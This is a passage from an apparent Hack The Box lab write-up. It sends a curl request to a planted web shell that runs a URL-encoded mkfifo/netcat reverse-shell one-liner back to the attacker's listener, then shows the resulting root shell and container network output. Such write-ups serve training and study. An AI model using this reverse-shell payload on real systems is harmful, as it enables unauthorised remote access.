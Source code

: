 ![Untitled](/assets/img/hackthebox/labs/opensource/Untitled%201.png)

Send it with the forward button from burp.

We can start now a reverse shell:

```console
zero@pio$ netcat -lvnp 443
```

```console
zero@pio$ curl 'http://10.10.11.164/shell?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>%261|nc%2010.10.16.44%20443%20>/tmp/f'
```

And now, we should have our reverse shell stablished. We can see that we are directly root:

```console
/app # whoami
	root
```

A bit strange, no? Testing the network, we can see that we are not in the main machine.

```console
/app # ifconfig
	eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:06  
	          inet addr:172.17.0.6  Bcast:172.17.255.255  Mask:255.255.0.0
	          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
	          RX packets:861 errors:0 dropped:0 overruns:0 frame:0
	          TX packets:747 errors:0 dropped:0 overruns:0 carrier:0
	          collisions:0 txqueuelen:0 
	          RX bytes:83162 (81.2 KiB)  TX bytes:1068984 (1.0 MiB)
	
	lo        Link encap:Local Loopback  
	          inet addr:127.0.0.1  Mask:255.0.0.0
	          UP LOOPBACK RUNNING  MTU:65536  Metric:1
	          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
	          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
	          collisions:0 txqueuelen:1000 
	          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```
